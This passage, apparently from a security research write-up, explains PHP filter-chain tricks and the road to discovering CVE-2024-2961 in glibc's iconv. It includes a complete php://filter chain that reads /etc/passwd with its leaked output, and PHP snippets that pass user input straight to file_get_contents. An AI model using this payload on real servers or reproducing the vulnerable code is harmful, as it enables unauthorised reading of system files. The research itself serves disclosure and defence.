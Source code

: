 ```
convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|
convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|
convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|
convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource=/etc/passwd
```

And the result:

```
Hello, world!!!root:x:0:0:root:/root:/bin/bash...
```

## PHP filters: prefix, suffix, and crash

Sadly, file reads are not always as easy as a:

```
echo file_get_contents($_POST['file']);
```

Oftentimes, the file will not be returned as-is, but it will be parsed or checked in some way. As an example, I often encountered variations of this piece of code, that expects your file to be valid JSON:

```
$data = file_get_contents($_POST['url']);
$data = json_decode($data);
echo $data->message;
```

We have a file read here, but the contents is then JSON-deserialized, and only part of the document is returned. In order to read standard files, such as `/etc/passwd`, we would need to add an arbitrary prefix **and suffix** to a stream. Something like: `{"message": "<contents-of-/etc/passwd>"}`. In late 2023, the state of affairs was that you could use `php://filter` chains to add a prefix to a stream, but not a suffix. So I started working on an algorithm to do the latter***.

At the time, I did not know anything about charsets, or encodings (to be perfectly honest, I still don't know the difference). To get started, I built a bruteforce script which stacked a few `iconv` filters on top of each other, and displayed the results. Something like:

```
php://filter/convert.iconv.A.B/convert.iconv.C.D/convert.iconv.E.F/resource=data:,test123
```

And a some point, my «fuzzer» **crashed**.

Having worked with PHP for most of my life, I was quick to point fingers. But little did I know, the bug resided much lower in the call chain: all the way down to the **glibc**.

** Note: the research yielded a tool that was published in December, 2023: [wrapwrap](https://www.ambionics.io/blog/wrapwrap-php-filters-suffix).*

# CVE-2024-2961: A bug in the glibc

## The `iconv()` API
